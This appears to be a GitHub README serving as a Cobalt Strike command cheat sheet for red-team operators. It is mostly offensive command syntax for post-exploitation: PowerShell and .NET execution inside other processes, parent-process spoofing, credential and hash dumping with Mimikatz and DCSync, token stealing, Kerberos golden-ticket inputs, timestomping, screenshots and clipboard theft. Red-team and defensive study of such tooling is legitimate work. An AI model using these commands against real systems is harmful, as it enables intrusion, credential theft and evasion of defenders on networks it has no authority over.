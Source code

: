 <p align="center">
  <img width="700" height="150" src="https://github.com/bigb0sss/RedTeam/blob/master/01-CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
##### Sleep
```css
sleep 60 50               ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

### Command Execution
##### Default
```css
run [command]
```
##### powershell.exe
```css
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
##### powerpick (Using PS w/o powershell.exe)
```css
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)
```css
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET
```css
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe
```css
shell [command] [args]
```

### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

### Parent Process Modification
```css
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

### SMB Beacn
```css
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

### TCP Beacn
```css
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

### Credentials and Hashes
```css
logonpasswords                              ; Run Mimikatz
hashdump                                    ; Get SAM database hashes
```

### Mimikatz
```css
mimikatz [command] [args]                   ; Runs a Mimikatz command
mimikatz ![command] [args]                  ; Elevate to SYSTEM and run Mimikatz command
mimikatz @[command] [args]                  ; User current token to run Mimikatz command
```
### DCSync
```css
dcsync [domain] [DOMAIN\user]
```

### File Download
```css
download [file]
cancel [file|*]
downloads
View --> Downloads --> Sync Files
```

### File Upload
```css
upload [/path/to/file]
timestomp [Destination] [Source]            ; Changing file's timestamps (*Do not recommend using it during the engagement) 
```

### Token Stealing
```css
ps                                          ; List process
steal_token [PID]                           ; Stealing token
getuid                                      ; Identify/confirm who you are
rev2self                                    ; Drop/revoke token

spawnas DOMAIN\user password                ; Spawn a beacon w/ alternative creds
make_token DOMaIN\user password             ; Create a token. So when you do a make_token, when you do 'whoami' you will 
                                            ; still see your current user account; however, if you do a remote 'whoami' 
                                            ; (maybe against DC) you will see that the maked token user.
```

### Kerberos Tickets
```css
klist                                       ; See your current Kerberos tray 
kerberos_ticket_purge                       ; Purge tickets
kerberos_ticket_user [/path/to/file.ticket] ; Load a ticket

<Golden Ticket>
- Desired user and DOMAIN name
- Domain SID [whoami /user + drop last number]
- NTLM hash of krbtgt user from DC
```

### Screenshots
```css
screenshot [pid] <x84|x64>
screenwatch [pid] <x84/x64>
printscreen
```

### Keylogging / ClipboardTheft
* [Start-ClipboardMonitor.ps1](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/Start-ClipboardMonitor.ps1)
```css
psinject <Process ID> x64 Start-ClipboardMonitor -CollectionLimit 5
```